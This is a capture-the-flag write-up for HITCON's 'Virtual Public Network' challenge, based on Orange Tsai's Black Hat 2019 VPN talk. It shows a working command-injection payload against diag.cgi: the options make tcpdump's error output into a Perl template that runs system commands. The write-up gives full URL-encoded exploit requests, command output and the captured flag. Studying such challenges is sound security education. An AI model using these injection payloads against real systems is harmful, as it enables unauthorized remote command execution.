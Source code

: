 # Virtual Public Network (🍊)

This problem falls into the time-honored "implement my Black Hat talk" category.  With a little bit of recon we can find [Orange's Black Hat 2019 talk](https://i.blackhat.com/USA-19/Wednesday/us-19-Tsai-Infiltrating-Corporate-Intranet-Like-NSA.pdf), which immediately seems relevant, given that the same joke in the problem is on slide 8.

Viewing the page source in the problem, we are given `diag.cgi` and `DSSafe.pm` as "hints".  `diag.cgi` is set up very similarly to the command injection discussed starting on slide 88 (and, in fact, has the same name as the file there).  Here, the idea is to use the error message from `tcpdump` to create an executable perl script, which we put in a template file and then render.

Using this concept, we can fairly easily craft a quick test to make sure everything's working:

---

Options to pass: `-r '$x="ls /",system$x#' 2>./tmp/wao.thtml <`

`GET http://13.231.137.9/cgi-bin/diag.cgi?tpl=wao&options=-r%20'%24x%3D%22ls%20%2F%22,system%24x%23'%202%3E.%2Ftmp%2Fwao.thtml%20%3C`

```
$READ_FLAG$
FLAG
bin
boot
dev
etc
home
initrd.img
initrd.img.old
lib
lib64
lost+found
media
mnt
opt
proc
root
run
sbin
snap
srv
sys
tmp
usr
var
vmlinuz
vmlinuz.old
```

---

Seems like we need to invoke `$READ_FLAG$`, which is annoying because `$` is used for string interpolation.  However, if we invoke bash, we can use an expansion of `*` to invoke the binary, since it's first in the sorted order:

---

Options to pass: `-r '$x="bash -c \"cd / && ./*\"",system$x#' 2>./tmp/wao.thtml <`

`GET http://13.231.137.9/cgi-bin/diag.cgi?tpl=wao&options=-r%20'%24x%3D%22bash%20-c%20%5C%22cd%20%2F%20%26%26%20.%2F*%5C%22%22,system%24x%23'%202%3E.%2Ftmp%2Fwao.thtml%20%3C`

```
hitcon{Now I'm sure u saw my Bl4ck H4t p4p3r :P}
```

---